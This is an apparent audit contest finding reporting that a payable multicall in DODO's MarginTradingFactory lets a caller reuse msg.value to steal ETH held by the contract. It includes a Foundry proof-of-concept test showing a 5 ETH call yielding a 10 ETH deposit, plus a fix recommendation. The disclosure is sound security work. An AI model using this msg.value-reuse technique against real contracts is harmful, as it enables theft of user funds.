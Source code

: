 BowTiedOriole

high

# Payable multicall function in MarginTradingFactory can result in misused funds

## Summary

MarginTradingFactory contains a receive() function and a cleanETH() function. This indicates that there are instances where ETH could be sent to the contract. The presence of the payable multicall function means that a user can reuse their msg.value more than once and steal these extra funds.

## Vulnerability Detail

1. Say there is 5 ETH in the MarginTradingFactory contract.
2. User Bob crafts two calldatas for depositMarginTradingETH with margin set to false.
3. Bob calls multicall with a msg.value of 5 ETH and the two depositMarginTradingETH payloads.
4. The contract reuses msg.value and deposits 10 ETH into Bob's MarginTrading contract.

```solidity
  function testCreateMarginTradingMine() public {
        vm.deal(user1, 5 ether);
        vm.deal(address(marginTradingFactory), 5 ether);

        vm.startPrank(user1);
        address myTrading = marginTradingFactory.createMarginTrading(1, "", "");

        bytes memory depositData = abi.encodeWithSignature("depositMarginTradingETH(address,bool,uint8)", myTrading, false, 1);
        bytes[] memory bothData = new bytes[](2);
        bothData[0] = depositData;
        bothData[1] = depositData;

        marginTradingFactory.multicall{value: 5 ether}(bothData);
        assertEq(weth.balanceOf(myTrading), 10 ether);
        assertEq(address(marginTradingFactory).balance, 0);
    }
```

## Impact

Excess funds in MarginTradingFactory can be stolen

## Code Snippet

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L74-L87

## Tool used

Manual Review

## Recommendation

Either remove the ability for the contract to receive excess funds, or adjust multicall function.
